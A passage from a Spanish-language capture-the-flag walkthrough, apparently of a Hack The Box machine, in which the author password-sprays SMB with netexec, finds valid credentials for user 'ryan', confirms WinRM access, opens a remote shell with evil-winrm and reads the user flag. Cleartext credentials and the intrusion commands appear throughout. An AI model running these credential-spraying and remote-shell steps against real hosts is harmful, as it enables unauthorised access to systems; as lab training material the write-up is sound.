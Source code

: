 ```
netexec smb sequel.htb -u users -p 'WqSZAF6CysDQbGb3' | grep -F [+]
```

```
SMB                      10.129.1.36     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
```

ryan es parte del grupo `*Remote Management Users`:

```
netexec winrm sequel.htb -u "ryan" -p 'WqSZAF6CysDQbGb3'
```

```
netexec winrm sequel.htb -u "ryan" -p 'WqSZAF6CysDQbGb3'   
WINRM       10.129.1.36     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.1.36     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

Utilizo `evil-winrm` para obtener una shell como ryan:

```
evil-winrm -i sequel.htb -u "ryan" -p 'WqSZAF6CysDQbGb3'
```

```                                       
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
```

Flag user.txt en ryan Desktop:

```
*Evil-WinRM* PS C:\Users\ryan> type Desktop/user.txt
d48da3e4************************
*Evil-WinRM* PS C:\Users\ryan>
```

Sin privilegios interesantes ni acceso a nada que no tuviese antes:

```
*Evil-WinRM* PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
